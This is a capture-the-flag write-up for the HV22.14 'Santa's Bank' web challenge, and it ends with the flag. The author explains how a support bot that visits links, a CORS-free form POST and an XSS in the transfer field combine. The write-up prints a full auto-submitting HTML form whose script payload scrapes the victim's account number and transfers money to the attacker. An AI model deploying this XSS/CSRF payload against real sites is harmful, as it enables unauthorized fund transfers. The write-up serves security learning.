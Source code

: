 ```yaml
---
title: "[HV22.14] Santa's Bank"
date: 2022-12-14 22:24:31 +0100
tags: HV22 CTF web medium xss xsrf cors
categories: HV22 medium
sidebar:
  nav: "hv22"
---
```


Santa has lost faith and trust in humanity and decided to take matters in his own hands: He opens a new bank.

He announced the release with the following message:

`For Christmas, our bank has a generous offer: save 100 € in your savings account and get a promo code!`

Due to mistrust, he didn't connect his bank and its employees to the internet.

Can you hack bank?

# Solution

Okay, another website, let's fire up burp, register an account and see what's inside. I get an account number, a transfer function (where I can enter from, to and amount), the promotion info, a support function (where I enter an URL and the support will have a look on it) and log out.

![logged in view](/assets/hv22/hv22_14_loggedin.png)

A few things are suspicious here. First, why does the transfer function offer to specify the from-account? Usually, this is given since I'm logged in to my account and usually are only allowed to send money from my account to others. I created a second account and tried to send money from the other account to my account, but due to a lack of balance it didn't work out.

Second thing is the support function. Why would the support team click on links I provide? To see if this works, I simply created a webserver using `python3 -m http.server` and sent the support browser to my site. It works!

![support connects to my machine](/assets/hv22/hv22_14_httpserver.png)

Now the question is what we can do from here. I was stuck a long time since I tried to somehow exfiltrate data. I recognized I'm blocked by CORS and went down a few rabbit holes trying to circumvent it. I didn't look for an easier way in the beginning, but using a simple form, you can POST data to any address you like. Didn't know that this doesn't care for CORS, but apparently it doesn't.

The basic idea is to send the support team to their own site, grabbing their account number and sending money from their account to mine. To do this, we need to find another vulnerability. Namely one which executes javascript in their browser. After fiddling around with the website, I found that the `to` field of the transfer function is vulnerable to XSS.

```html
<html>
  <body onload="document.forms[0].submit()">
    <form
      action="https://87356ece-c334-4b28-87c7-3a5878f8ff15.idocker.vuln.land/transfer"
      method="POST"
    >
      <input name="from" value="a" />
      <input
        name="to"
        value="
                <script>
                        fetch('/')
                                .then(response => response.text())
                                .then((response) => {
                                        var acct = response.match(/[0-9A-F]{20}/)[0];
                var target = 'F9D4BB0A26E48BCEBECB';
                fetch('/transfer',
                        {
                                method: 'POST',
                                body: 'from=' + acct + '&to=' + target + '&amount=100',
                                headers: {
                                        'Content-Type': 'application/x-www-form-urlencoded'
                                }
                        })
                                })</script>
                "
      />
      <input name="amount" value="100" />
    </form>
  </body>
</html>
```

This is what I threw together. Basically, it creates a form which uses the XSS vulnerability in the `to` field (from and amount are irrelevant) and submits it right away. So the victims browser is redirected to the `action` value (transfer page) and the script from the `to` field gets executed. This script fetches the start screen (which displays the account number), grabs that by regex, and sends a POST to the `/transfer` endpoint, sending 100 from the support account to my target account.

After waiting for a moment for the support team to access my page, I can see that my balance now is at 100$ and under Promotion, I see my flag **HV22{XSS_XSRF_TOO_MANYS_XS}**

![flag](/assets/hv22/hv22_14_flag.png)
